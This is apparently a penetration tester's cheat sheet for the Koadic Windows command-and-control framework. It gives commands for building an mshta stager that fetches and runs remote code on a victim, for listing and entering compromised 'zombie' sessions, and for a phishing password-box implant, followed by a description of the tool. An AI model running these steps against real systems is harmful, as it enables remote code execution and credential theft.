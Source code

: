 --- ---

<h2>Top Commands</h2>

```
use stager/js/mshta             ---> Use the module to exploit
info                            ---> Check payload info
run

# Paste the outpu in windows
mshta http://.....

zombies                         ---> Show sessions
cmdshell NUMBER                 ---> Get in the session
```

- Modules (many available)
```
use MODULE
info
set zombie NUMBER(TARGET)

# Example
use implant/phish/password_box  ---> Pishing box creds
```

---

<h2>What is Koadic</h2>

Koadic, or COM Command & Control, is a Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire. The major difference is that Koadic does most of its operations using Windows Script Host (a.k.a. JScript/VBScript), with compatibility in the core to support a default installation of Windows 2000 with no service packs (and potentially even versions of NT4) all the way through Windows 10.

It is possible to serve payloads completely in memory from stage 0 to beyond, as well as use cryptographically secure communications over SSL and TLS (depending on what the victim OS has enabled).